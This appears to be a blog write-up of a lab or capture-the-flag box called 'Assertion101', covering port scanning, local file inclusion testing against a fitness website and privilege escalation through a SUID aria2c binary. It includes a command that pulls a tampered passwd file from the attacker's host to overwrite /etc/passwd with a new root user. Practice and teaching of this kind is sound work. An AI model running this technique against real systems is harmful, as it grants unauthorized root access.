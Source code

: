 

+++
title = "Assertion101"
date = 2024-11-03T10:24:00
draft = false
tags = ["LFI", "SUID exploitation"]
+++

Recon :


a quick rustscan to find open ports on the target

![Pasted image 20241024182502.png](/images/Pasted image 20241024182502.png)

Scanning : 
then a nmap scan for banner grabbing for the open ports

![Pasted image 20241024182934.png](/images/Pasted image 20241024182934.png)

```
# Nmap 7.94SVN scan initiated Thu Oct 24 18:25:45 2024 as: /usr/lib/nmap/nmap -p 22,80 -sCV -oN assertion.txt 192.168.170.94
Nmap scan report for 192.168.170.94
Host is up (0.043s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:ce:aa:cc:02:de:a5:a3:58:5d:da:2b:ef:54:07:f9 (RSA)
|   256 9d:3f:df:16:7a:e1:59:58:84:4a:e3:29:8f:44:87:8d (ECDSA)
|_  256 87:b5:6f:f8:21:81:d3:3b:43:d0:40:81:c0:e3:69:89 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Assertion
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 24 18:25:54 2024 -- 1 IP address (1 host up) scanned in 8.80 seconds
```

Enumeration : 

From the nmap scan, we could deduce that Os runs Linux and specifically.

There is a apache web server running, would enumerate it.

The website is about fitness. 

![Pasted image 20241024203759.png](/images/Pasted image 20241024203759.png)




fuzzing for hidden endpoints 

![Pasted image 20241024203907.png](/images/Pasted image 20241024203907.png)

/pages shows this php files.

![Pasted image 20241024203723.png](/images/Pasted image 20241024203723.png)

From the main page, clicked on the about-us 

![Pasted image 20241024204155.png](/images/Pasted image 20241024204155.png)

Test for lfi 
![Pasted image 20241024204233.png](/images/Pasted image 20241024204233.png)

using payload of /etc/passwd,there is an error "file does not exist"

could try other payloads or automate it by fuzzing.. 

While manually trying different payloads and methologies, the box creator sends us messages.. 

Will continue testing..

Tried everything i knew but was futile, reading over stackoverflow, someone talked about this attack, 

simple detailed explanation on how it works.. 





![Pasted image 20241101164653.png](/images/Pasted image 20241101164653.png)

going 1 step from the html directory, the local.txt file 

![Pasted image 20241101170919.png](/images/Pasted image 20241101170919.png)

Next, to attempt privilege escalation to the user..

importing linpeas 

![Pasted image 20241101173401.png](/images/Pasted image 20241101173401.png)

There is unknown binary, will enumerate more..

![Pasted image 20241101173511.png](/images/Pasted image 20241101173511.png)

great

![Pasted image 20241103092231.png](/images/Pasted image 20241103092231.png)


the `/usr/bin/aria2c` executable, which is a command line download utility. We can use it to overwrite some important files. For example, we can use it to overwrite the root’s authorized_keys file.


It can be used read files as well or 

![Pasted image 20241103090035.png](/images/Pasted image 20241103090035.png)

read it normally.. 
![Pasted image 20241103101114.png](/images/Pasted image 20241103101114.png)


in this scenario, will copy the existing passwd file and add a new user with root rights and copy to the target to the /etc directory using the aria2c binary.

![Pasted image 20241103101150.png](/images/Pasted image 20241103101150.png)



```/usr/bin/aria2c -o passwd "http://192.168.45.219:8000/newpass" --allow-overwrite=true
```


![Pasted image 20241103100413.png](/images/Pasted image 20241103100413.png)

then switch user to Tom and enter the password (Password@973)

![Pasted image 20241103100632.png](/images/Pasted image 20241103100632.png)

got the last flag.. 

Thanks for reading..
